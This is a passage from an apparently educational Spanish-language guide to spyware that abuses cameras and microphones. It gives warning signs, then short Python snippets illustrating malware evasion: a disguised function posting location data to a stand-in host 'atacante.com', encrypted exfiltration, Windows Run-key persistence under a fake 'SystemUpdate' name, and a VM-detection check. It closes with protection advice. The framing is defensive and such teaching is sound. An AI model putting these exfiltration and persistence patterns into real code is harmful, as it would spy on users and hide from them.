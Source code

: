 3. **Señales de alerta:**
   - Uso de dispositivos multimedia sin justificación
   - Manipulación de streams de audio/video
   - Creación de archivos temporales
   - Envío de archivos a servidores externos

---

### **Técnicas de Evasión Comunes en Malware Real**
1. **Ofuscación de código:**
   ```python
   # Nombres de variables engañosos
   def update_weather():
       # En realidad envía ubicación
       requests.post("http://atacante.com", data=location)
   ```

2. **Cifrado de comunicaciones:**
   ```python
   # En lugar de enviar en texto plano
   encrypted_data = encrypt(json.dumps(data))  # Función de cifrado
   requests.post(url, data=encrypted_data)
   ```

3. **Persistencia en el sistema:**
   ```python
   # Agregar al registro de Windows (autoarranque)
   import winreg
   key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, winreg.KEY_SET_VALUE)
   winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ, "C:\\ruta\\al\\malware.exe")
   ```

4. **Detección de entornos virtuales:**
   ```python
   # Comprobar si está en una VM
   def is_vm():
       return os.path.exists("/proc/vz") or os.path.exists("/proc/bc")
   ```

---

### **Medidas de Protección**
1. **Permisos de aplicaciones:**
   - Revoca permisos de cámara/micrófono para apps innecesarias
   - En Android/iOS: Revisa periódicamente permisos activos

2. **Indicadores físicos:**
   - Cámaras web con LED de actividad
   - Micrófonos externos con interruptor físico

3. **Software de seguridad:**
   - Antivirus con detección de comportamiento
   - Firewalls que monitorean conexiones salientes
